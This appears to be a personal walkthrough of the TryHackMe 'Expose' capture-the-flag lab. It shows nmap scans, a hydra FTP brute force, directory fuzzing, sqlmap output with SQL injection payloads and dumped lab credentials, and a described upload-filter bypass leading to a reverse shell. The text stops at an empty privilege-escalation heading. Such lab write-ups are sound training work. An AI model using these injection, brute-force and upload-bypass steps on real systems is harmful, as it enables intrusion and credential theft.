# THM Expose
Walkthrought of the Expose CTF from Tryhackme

## Enumeration

### NMAP

```
$ sudo nmap -p- -sS 10.10.166.212     

[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 19:00 EDT
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 17.24% done; ETC: 19:01 (0:00:38 remaining)
Nmap scan report for 10.10.166.212
Host is up (0.061s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 40.20 seconds

```

```
$ nmap -sV -p 21,22,53,1337,1883 10.10.166.212

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 19:03 EDT
Nmap scan report for 10.10.166.212
Host is up (0.055s latency).

PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
1883/tcp open  mosquitto version 1.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.35 seconds

```

A usual FTP and SSH, but the domain server is weird, don't usually see this is machines.

After a quick search about this service and it's version we discover that it is vulnerable to Remote code execution
https://www.cybersecurity-help.cz/vdb/SB2021021718. The CVE is CVE-2020-8625.


Also the open ports of the web server and mqtt service are also not standart I think

### FTP

We can login anonymously but the directory is empty
```
$ ftp 10.10.166.212
Connected to 10.10.166.212.
220 Welcome to the Expose Web Challenge.
Name (10.10.166.212:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||53412|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp>
```

However the FTP version is interesting. vsftpd 2.0.8 or later. We can test if it is vulnerable to a backdoor with an Nmap Script

```
ftp-vsftpd-backdoor

Tests for the presence of the vsFTPd 2.3.4 backdoor reported on 2011-07-04 (CVE-2011-2523). This script attempts to exploit the backdoor using the innocuous id command by default, but that can be changed with the exploit.cmd or ftp-vsftpd-backdoor.cmd script arguments
```
It is not vulnerable to this.

**Other default credentials exits but the directory is still empty**
```
$ hydra -C ~/Desktop/SecLists-master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://10.10.166.212
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 18:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://10.10.166.212:21/
[21][ftp] host: 10.10.166.212   login: anonymous   password: anonymous
[21][ftp] host: 10.10.166.212   login: ftp   password: b1uRR3
[21][ftp] host: 10.10.166.212   login: ftp   password: ftp
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-23 18:45:53

```

### Web enumeration

The web port is 1337.



**Enumeration with ffuf**

```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.166.212:1337/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.166.212:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 54ms]
    * FUZZ: admin
[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 56ms]
    * FUZZ: javascript
[Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 60ms]
    * FUZZ: phpmyadmin
[Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 64ms]
    * FUZZ: server-status

:: Progress: [220560/220560] :: Job [1/1] :: 645 req/sec :: Duration: [0:05:36] :: Errors: 0 ::

```

Lets see these pages:

* /admin
	
	Not a real form with any actual posting
* /phpmyadmin
    
	Tried SQLI but it seems protetectd against it. Maybe we can enumerate users on it at least.
	
* /javacript

    
* /server-status

    


### My mistake the dirb buster I used was not big enought. There is another few web pages to be explored

Let's try this again whit a bit dirb
```
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.55.71:1337/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.55.71:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 122ms]
    * FUZZ: admin

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 120ms]
    * FUZZ: admin_101

[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 61ms]
    * FUZZ: javascript

[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 58ms]
    * FUZZ: phpmyadmin

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 61ms]
    * FUZZ: server-status

:: Progress: [20469/20469] :: Job [1/1] :: 630 req/sec :: Duration: [0:02:10] :: Errors: 160 ::

```


### /admin_101



This admin portal already has a email in the fied.

***hacker@root.thm***

Other stuff about the web page. 
* It is using phpsessid as a cookie. These cookies have no type of encoding and are just a random identifier value
* It most likely sets the phpsessid in the backend and checks it when redirecting to chat.php, don't know if i can exploit this.

**SQLI**
Tried manual sqli but got nowhere

**SQLMAP**

```
$ sqlmap -r post_method.txt --dump
        ___
       __H__                                                                                                                   
 ___ ___[(]_____ ___ ___  {1.7.8#stable}                                                                                       
|_ -| . [']     | .'| . |                                                                                                      
|___|_  [']_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:13:22 /2023-09-24/

[10:13:22] [INFO] parsing HTTP request from 'post_method.txt'
[10:13:22] [INFO] testing connection to the target URL
[10:13:22] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[10:13:22] [INFO] testing if the target URL content is stable
[10:13:22] [INFO] target URL content is stable
[10:13:22] [INFO] testing if POST parameter 'email' is dynamic
[10:13:22] [INFO] POST parameter 'email' appears to be dynamic
[10:13:22] [INFO] heuristic (basic) test shows that POST parameter 'email' might be injectable (possible DBMS: 'MySQL')
[10:13:22] [INFO] heuristic (XSS) test shows that POST parameter 'email' might be vulnerable to cross-site scripting (XSS) attacks
[10:13:22] [INFO] testing for SQL injection on POST parameter 'email'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[10:13:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:13:25] [WARNING] reflective value(s) found and filtering out
[10:13:25] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:13:26] [INFO] testing 'Generic inline queries'

(...)

[10:17:44] [INFO] testing 'MySQL UNION query (40) - 81 to 100 columns'
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 1350 HTTP(s) requests:
---
Parameter: email (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=hacker@root.thm' AND GTID_SUBSET(CONCAT(0x7162717871,(SELECT (ELT(1897=1897,1))),0x716b626a71),1897)-- wFOV&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=hacker@root.thm' AND (SELECT 2835 FROM (SELECT(SLEEP(5)))TVSg)-- OcNj&password=password
---
[10:18:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[10:18:01] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:18:01] [INFO] fetching current database
[10:18:01] [INFO] retrieved: 'expose'
[10:18:01] [INFO] fetching tables for database: 'expose'
[10:18:02] [INFO] retrieved: 'config'
[10:18:02] [INFO] retrieved: 'user'
[10:18:02] [INFO] fetching columns for table 'config' in database 'expose'
[10:18:02] [INFO] retrieved: 'id'
[10:18:02] [INFO] retrieved: 'int'
[10:18:02] [INFO] retrieved: 'url'
[10:18:02] [INFO] retrieved: 'text'
[10:18:02] [INFO] retrieved: 'password'
[10:18:02] [INFO] retrieved: 'text'
[10:18:02] [INFO] fetching entries for table 'config' in database 'expose'
[10:18:02] [INFO] retrieved: '/file1010111/index.php'
[10:18:03] [INFO] retrieved: '1'
[10:18:03] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[10:18:03] [INFO] retrieved: '/upload-cv00101011/index.php'
[10:18:03] [INFO] retrieved: '3'
[10:18:03] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[10:18:03] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[10:18:12] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files

[10:18:16] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[10:18:20] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[10:18:20] [INFO] starting 2 processes 
[10:18:32] [INFO] cracked password 'easytohack' for hash '69c66901194a6486176e81f5945b8929'                                   
Database: expose                                                                                                              
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

[10:18:57] [INFO] table 'expose.config' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.178.122/dump/expose/config.csv'                                                                                                                       
[10:18:57] [INFO] fetching columns for table 'user' in database 'expose'
[10:18:57] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[10:18:57] [INFO] retrieved: 'id'
[10:18:57] [INFO] retrieved: 'int'
[10:18:57] [INFO] retrieved: 'email'
[10:18:57] [INFO] retrieved: 'varchar(512)'
[10:18:57] [INFO] retrieved: 'password'
[10:18:57] [INFO] retrieved: 'varchar(512)'
[10:18:57] [INFO] retrieved: 'created'
[10:18:57] [INFO] retrieved: 'timestamp'
[10:18:57] [INFO] fetching entries for table 'user' in database 'expose'
[10:18:58] [INFO] retrieved: '2023-02-21 09:05:46'
[10:18:58] [INFO] retrieved: 'hacker@root.thm'
[10:18:58] [INFO] retrieved: '1'
[10:18:58] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[10:18:58] [INFO] table 'expose.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.178.122/dump/expose/user.csv'                                                                                                                         
[10:18:58] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.178.122'

[*] ending @ 10:18:58 /2023-09-24/


```


## Using this information:
### Login into the admin_101 endpoint


### Using the "easytohack" password on the file1010111/index.php enpoint 


Looking at the DOM



We can use this endpoint to see files in the OS



### Using the z user in the other web portal

zeamkish is a user in this machine

In this web page we can upload files

Where do these files go? We can see the anwser in the DOM again

The upload



## Getting a reverse shell

First we need to bypass the clien side filter

### Bypassing the clien side filter with burp

It just checks the extension so we first upload the file as png



We can then change the file in burp before sending the request




### Getting the shell




### Getting SSH Creds





## PrivEsc

